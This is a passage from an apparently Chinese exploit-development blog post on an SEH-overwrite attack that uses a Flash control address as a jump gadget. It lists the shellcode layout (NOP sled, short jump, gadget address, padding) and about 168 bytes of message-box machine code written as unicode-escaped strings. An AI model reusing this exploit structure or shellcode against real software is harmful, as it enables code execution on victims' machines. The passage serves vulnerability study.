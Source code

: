 ![跳板指令](/images/2017-07-08/call_jmp.jpg)
7. 程序执行跳板指令后，会回到SEH的链表指针所在地址。即"\u9090\u9090\uA0C6\u021D"处。

<b>shellcode组成：</b>
1. 120字节0x90   60 \* "\u9090"
2. 向后短跳16字节 "\u0EEB\u9090"
3. Flash控件的跳板指令地址 "\uA0C6\u021D"
4. 8字节的0x90填充	"\u9090\u9090\u9090\u9090"
4. 168字节的弹出对话框机器码
 "\u68fc\u0a6a\u1e38\u6368\ud189\u684f\u7432\u0c91\uf48b\u7e8d\u33f4\ub7db\u2b04\u66e3
 \u33bb\u5332\u7568\u6573\u5472\ud233\u8b64\u305a\u4b8b\u8b0c\u1c49\u098b\u698b\uad08
 \u6a3d\u380a\u751e\u9505\u57ff\u95f8\u8b60\u3c45\u4c8b\u7805\ucd03\u598b\u0320\u33dd
 \u47ff\u348b\u03bb\u99f5\ube0f\u3a06\u74c4\uc108\u07ca\ud003\ueb46\u3bf1\u2454\u751c
 \u8be4\u2459\udd03\u8b66\u7b3c\u598b\u031c\u03dd\ubb2c\u5f95\u57ab\u3d61\u0a6a\u1e38
 \ua975\udb33\u6853\u6577\u7473\u6668\u6961\u8b6c\u53c4\u5050\uff53\ufc57\uff53\uf857"
